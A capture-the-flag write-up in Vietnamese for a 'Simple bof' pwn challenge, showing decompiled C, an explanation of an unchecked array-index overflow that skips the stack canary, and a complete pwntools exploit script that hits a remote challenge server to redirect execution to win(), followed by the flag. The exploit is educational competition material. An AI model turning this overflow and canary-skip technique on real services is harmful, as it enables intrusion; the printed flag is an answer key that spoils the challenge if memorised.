 # Simple bof (pwn)

Check binary

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

Decompile bằng IDA

{% code lineNumbers="true" %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v5; // [rsp+8h] [rbp-98h] BYREF
  int i; // [rsp+Ch] [rbp-94h]
  _QWORD v7[16]; // [rsp+10h] [rbp-90h] BYREF
  __int64 v8; // [rsp+90h] [rbp-10h]
  unsigned __int64 v9; // [rsp+98h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  v8 = 1LL;
  printf("First useful number: 0x%x\n", &locret_40101A);
  printf("Second useful number %p\n", win);
  puts("How many magic numbers do you wanna tell me?");
  __isoc99_scanf("%d", &v5);
  puts("Ok.");
  for ( i = 0; i < v5; ++i )
  {
    printf("%d. ", (unsigned int)(i + 1));
    __isoc99_scanf("%lu", &v7[i]);
  }
  if ( v8 != 0xDEADBEEFDEADBEEFLL )
  {
    puts("Thanks a lot.");
    exit(0);
  }
  puts("Don't forget the canary.");
  return __readfsqword(0x28u) ^ v9;
}
```
{% endcode %}

Bài này không kiểm tra size ở line 15, nếu ta nhập số >16 -> ghi đè ra ngoài biến array v7 -> overflow

Qua quá trình debug mình thấy:

\+ biến v8 ở index 16

\+ stack canary ở index 17

\+ saved rip ở index 19 -> mình sẽ ghi đè thành địa chỉ của `ret` gadget ( leak ở line 12) -> rồi ghi đè địa chỉ hàm win ở index 20 ( bài này `no-pie` nên leak win không cần thiết lắm :))) ).

Script giải

```python
from pwn import *
from time import sleep
e=ELF("./simple_bof")
#p=e.process()
p=remote("45.122.249.68",10018)
#context.log_level='debug'
#gdb.attach(p,gdbscript="\nb *main+307")
p.recvuntil(b"First useful number: ")
sleep(1)
leak=p.recvuntil(b"\n").rstrip().decode()
sleep(1)
leak=int(leak,16)
log.info(hex(leak))
p.sendline(b"21")
sleep(1)
#pause()
for i in range(21):
    if i==16:
        p.sendline(str(0xDEADBEEFDEADBEEF).encode())
    #elif i==17:
    #    p.sendline('-'.encode())
    elif i==19:
        p.sendline(str(leak).encode())
    elif i==20:
        p.sendline(str(e.sym["win"]).encode())
    else:
        p.sendline('-'.encode())
    sleep(1)
p.interactive()

```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{sUp3r_e4sY_b0f_74f2f624d3c92c1d739b6b0b238c0321}`





